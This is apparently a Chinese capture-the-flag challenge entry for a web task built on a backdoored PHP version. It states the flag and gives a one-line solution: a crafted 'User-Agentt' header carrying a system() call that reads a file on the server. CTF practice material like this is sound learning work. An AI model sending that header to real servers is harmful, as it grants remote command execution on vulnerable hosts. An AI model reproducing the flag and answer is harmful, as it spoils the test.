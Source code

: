 
* **题目名称：** 隐秘的backdoor

* **题目类型：** WEB

* **题目难度：** 中等

* **出题人：**pANz0e

* **考点：**  

1. php版本后门


* **描述：**  后门给你了，来吧

* **flag：** flag{B@ck_do0r\_!\_B4ck_d0or_!}

* **Writeup：** 添加请求头`User-Agentt: zerodiumsystem("cat /flag");`
